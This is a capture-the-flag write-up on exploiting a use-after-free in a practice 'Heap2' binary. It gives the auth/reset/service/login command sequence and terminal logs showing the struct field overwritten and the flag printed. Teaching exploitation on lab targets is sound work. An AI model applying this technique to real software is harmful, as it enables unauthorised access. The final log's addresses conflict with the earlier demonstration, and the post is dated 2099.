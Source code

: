 ```yaml
---
title:  "Writeup: Heap2"
date:   2099-04-25 12:00:00
categories: writeup
author: Esteban Aranda
layout: post
---
```


Basic concepts that one should understand before attempting to solve this binary are: pointers, `malloc`, and `free`.

By examining the source code we can see that this problem has an auth structure made up of a 32 byte-long string and an int. Two pointers are defined, one to an auth struct and one to a "service" character. The program runs on an infinite while loop and there are four commands we can run, `auth`, `reset`, `service`, and `login`. Based on what command we run the program proceeds to do different actions. Our goal is to successfully log in to read the flag. To help us out, there is also a print statement that prints the memory addresses of our two variables.

Unlike previous heap problems, this problem reads user input from stdin using `fgets`, so we cannot overflow it, and the `auth` commands also checks for length of the string. However, our plan is still to somehow overwrite `auth->auth` with `1`, to be able to login and read the flag.

We can first call the commands to see what they do:

```
[ auth = (nil), service = (nil) ]                                                                                          
auth AAAA                                                                                                                  
[ auth = 0x804b818, service = (nil) ]                                                                                      
service BBBB
[ auth = 0x804b818, service = 0x804b828 ]                                                                                  
login                                                                                                                      
please enter your password                                                                                                 
[ auth = 0x804b818, service = 0x804b828 ]                                                                                  
reset
[ auth = 0x804b818, service = 0x804b828 ]
```

**Commands:**
 - 'auth': allocates memory for the auth struct and fills it with `0`'s via `memset`. It then checks if the string given after calling the command is shorter than 32 bytes, and if so it copies it into `auth->name`.
 - `reset`: frees the memory location pointed to by the auth struct pointer. However, as can be seen above, the pointer still points to the same location in memory even after calling the command. This is a Use-After-Free vulnerability that we can exploit since the `login` command will still try to access the “freed” `auth->auth`.
 - `service`: sets the service pointer to the memory address returned by `strdup`. This memory address contains the duplicate of the string input by the user. 
 - `login`: checks if `auth->auth` is equal to `1`, and if it is, it logins and prints out the flag. Otherwise, it prompts the user to enter the correct password.

We can read `strdup`'s manpage to see exactly how it works:

```
The strdup() function returns a pointer to a new string which is a duplicate of the
string  s.   Memory for the new string is obtained with malloc(3), and can be freed
with free(3).
```

The function allocates memory in the heap via `malloc`, so in theory after freeing the auth struct with the `reset` command, `strdup` will allocate memory in the same location pointed to by the auth pointer. We can confirm this by running the commands in the following order:

```
[ auth = (nil), service = (nil) ]                                                                                          
auth AAAA                                                                                                                  
[ auth = 0x804b818, service = (nil) ]                                                                                      
reset                                                                                                                      
[ auth = 0x804b818, service = (nil) ]                                                                                      
service BBBB
[ auth = 0x804b818, service = 0x804b818 ]                                                                                  
```

By first allocating memory for the struct, then freeing it, and then allocating memory for service via `strdup` we can see that both pointers end up pointing to `0x804b818`.

With the knowledge of what each command does, how `strdup` works, and the Use-After-Free vulnerability we are ready to exploit the program to login and get the flag. By calling the same sequence of command as above, but calling `service` with multiple `1`’s so that `strdup` will duplicate them onto the memory location pointed to by `auth->auth`, we can successfuly overwrite that field of the struct and login.

```
[ auth = (nil), service = (nil) ]                                                                                          
auth AAAA                                                                                                                  
[ auth = 0x804b818, service = (nil) ]                                                                                      
reset                                                                                                                      
[ auth = 0x804b818, service = (nil) ]                                                                                      
service 11111111111111111111111111111                                                                                      
[ auth = 0x804b818, service = 0x804b828 ]                                                                                  
login                                                                                                                      
you have logged in already!                                                                                                
flag: hello world!
                                                                            
[ auth = 0x804b818, service = 0x804b828 ]
```
